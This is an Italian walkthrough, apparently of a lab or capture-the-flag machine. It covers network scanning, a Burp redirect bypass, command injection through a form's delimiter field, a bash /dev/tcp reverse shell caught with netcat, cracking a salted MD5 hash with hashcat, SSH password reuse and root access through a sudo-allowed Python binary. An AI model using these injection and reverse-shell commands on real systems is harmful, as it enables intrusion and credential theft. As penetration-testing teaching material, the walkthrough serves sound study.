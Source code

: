 - [Scansione Rete](#scansione-rete)
- [Scansione Dispositivo](#scansione-dispositivo)
- [Vedere Redirezione](#vedere-redirezione)
- [Cercare Path con Dizionario Noto](#cercare-path-con-dizionario-noto)
- [Reverse Shell](#reverse-shell)
  - [Decodifica della Password di un Utente](#decodifica-della-password-di-un-utente)
  - [Login come Root](#login-come-root)

# Scansione Rete
 ```bash
$> nmap -sP $(IP-RETE)
 ```

# Scansione Dispositivo
```bash
$> nmap -sP $(IP-DISPOSITIVO)
```

Si ricerca una porta aperta, che magari ospiti un web server. Se la si trova, si cerca di accedere attraverso il browser web. In questo caso l'indirizzo porta ad una pagina di login.

# Vedere Redirezione
```bash
$> wget $(URL) --no-redirect
```

# Cercare Path con Dizionario Noto
```bash
$> gobuster dir -u $(URL) -w $(WORDLIST) -t $(THREADS_NUMBER) -x $(EXTENSION)
```
Per evitare la redirezione si utilizza Burp, un software pre installato di Kali. Burp intercetterà le richieste in uscita e in entrata tra la nostra macchina e quella attaccata. Può essere inserito come proxy all'interno di Firefox (per semplicità c'è un'estensione chiamata *FoxyProxy*). Una volta fatta la richeta dico a Burp di intercettare la risposta e la forward. In questo modo nel browser riesco ad accedere al path */index.php* che prima mi rendirizzava. Se si riceve un redirect in Burp è possibile cambiare il codice di ritorno da 302 (redirect) a 200 (OK) in modo da poter visualizzare correttamente la pagina di nostro interesse. In questo caso si riesce ad accedere ad una pagina per soli amministratori. Ogni account ha i permessi degli altri. In questa fase ci si limita a navigare nel sito con il solo scopo di esplorarlo e comprenderne le vulnerabilità. Si accede al file `config.php` e si vedono i dati di accesso al Database. Si ha la conferma che è in locale. In questo momento abbiamo accesso a tutti i file del sito che hanno estensione `.php`. Nella sito è presente una pagina con un form che permette di caricare files. In `files.php` si vede che il file viene aperto e caricato direttamente sul database. Per questa volta, seppur non convincente, non è questa la vulnerabilità da sfruttare.

Qui è presente un form che ci fa scegliere il delimitatore. Attraverso Burp è possibile inserire un comando in coda al delimitatore scelto, in questo modo:
```bash
delim = space; echo $(id) > /var/www/out.log
```
L'obiettivo è ora quello di ottenere una *reverse shell*. Una shell che se utilizzata dal nostro computer ci permette di controllare quello della vittima.

# Reverse Shell
Si cercano degli esempi di reverse shell in bash che sfruttano TCP. 
```bash
$> bash -c "bash -i >& /dev/tcp/$(NOSTRO-IP)/$(PORTA) 0>&1"
```
- `bash -c` serve per eseguire un comando
- `bash -i` esegue bash in maniera interattiva. 
- `>&` redirezione di output ed errore su un file. 
- `192.168.174.8` è il nostro IP a cui vogliamo connetterci. 
- `4444` è la  dell'attaccante.
In definitiva si ottiene il comando:
```bash
delim=space; bash -c "bash -i >& /dev/tcp/$(NOSTRO-IP)/$(PORTA) 0>&1"
```
E' necessario codificare le istruzioni date, per farlo è possibile sempre utilizzare l'apposita funzione di Burp. Si ottiene una stringa di codice esadecimale "%75%70%..." (l'istruzione è molto lunga), ottennendo:
```bash
delim=
%75%70%...
```
Prima di fare questo dobbiamo fare in modo che il nostro PC sia in ascolto: per farlo si utilizza il comando `nc` (netcat). 
```bash
$> nc -lvnp 4444
```
Si manda la richiesta POST precedentemente codificata come URL con l'ausilio di Burp e si apre la shell attraverso cui è possibile lanciare comandi. In questo modo ci registriamo al sistema come utente "prova". Modifichiamo la shell in modo da poter utilizzare comandi interattivi come MySQL, per farlo utilizzamo python.
```bash
$> python3 -c "import pty;pty.spawn('/bin/bash')"
```
Controlliamo quali utenti sono presenti sia sul database che sulla macchina: in questo caso l'utente *vader*. La password sul database viene salvata hashata. Esistono tabelle contenenti la password e il corrispettivo hash (password note). In questo caso nell'hash è stato aggiunto il "sale" (🧂), una stringa utilizzata per cambiare l'hash della password. Le tabelle così non sempre risultano utili. Solitamente il sale è una stringa casuale più o meno lunga. La password corrispondente a vader sul db è la seguente: `$1$🧂llol$W7ysLjEZ.BUStjXoWzQKl/`. Si conosce l'algoritmo utilizzato che viene codificato con `$1`. Per trovare la password di nostro interesse sarebbe possibile creare uno script in PHP con un dizionario noto, oppure utilizzare un tool, già presente su Kali, chiamato *hashcat*. Per farlo salviamo l'hash della password da scoprire in un file *hash.txt*. 

## Decodifica della Password di un Utente
Come vediamo dall'url contenente gli [esempi di hash](https://hashcat.net/wiki/doku.php?id=example_hashes), l'hash `$1` corrisponde all' *hash-mode* numero 500 di hashcat. Come *wordlist* si utilizza *rockyou*, una lista contenente le password più utilizzate. Ora possiamo eseguire hashcat, che impiega più o meno tempo a seconda della configurazione e dell'hardware utilizzato.
```bash
$> hashcat -a 0 -m 500 ~/hash /usr/share/wordlists/rockyou.txt
```
Una volta trovata la password, per mostrare il risultato si esegue:
```bash
$> hashcat -a 0 -m 500 ~/hash /usr/share/wordlists/rockyou.txt --show
```
La password di *vader* risula essere *sithlord1*. Il computer collegato alla rete esponeva due porte: la 80 e la 22. Vediamo se utilizza la stessa password anche per la sua macchina, collegandoci alla porta 22. L'esito di questa operazione è positivo. Proviamo a diventare *root* (con il comando *su*), ma in questo caso la password è diversa. Guardiamo quali altri utenti sono presenti sulla macchina, con:
```bash
$> cat /etc/passwd
```
Proviamo ad utilizzare *sudo*, ma anche in questo caso la macchina è stata configurata decentemente e non è l'utente *vader* non può diventare amministratore. 

## Login come Root
Con il seguente comando il terminale stampa la configurazione di sudo per l'utente con cui siamo loggati.
```bash
$> sudo -l
```
Vediamo che l'utente vader può eseguire python3 come amministratore, ma non quello che si esegue quando si lancia il comando *python3*, bensì quello nel percorso */opt/python3*. Eseguendolo utilizziamo python come root.
```bash
$> sudo /opt/python3
```
Ora che siamo root, possiamo scrivere un file in python, assicurandoci di essere root con una semplice write:
```python
>>> with open("/home/vader/test", "w") as f:
...     f.write("ciao)
```
Controlliamo il file appena creato:
```bash
$> ls -asl
```
E tra i file troviamo il *test* creato dall'utente *root* appartenente al gruppo *root*. Ora che siamo sicuri di eseguire come root quando utilizziamo python, possiamo eseguire un bash utilizzandolo:
```python
>>> import pty; pty.spawn("/bin/bash)
```
Un'altra vulnerabilità, sempre presente su questa macchina ma che non riguarda l'utilizzo di python la si può trovare nei gruppi. Per trovarla si consiglia di utilizzare un tool che consente di fare un'analisi di tutto ciò che è presente sul sistema: *LinPeas*. Analizzando l'output del tool dovrebbe apparire chiaramente che c'è un problema su un gruppo dell'utente. Da qui si dovrà capire qual è la vulnerabilità da sfruttare e come sfruttarla. Quindi per questa macchina, oltre al metodo visto con python, è necessario specificare *un altro metodo per fare Privilege Escalation*.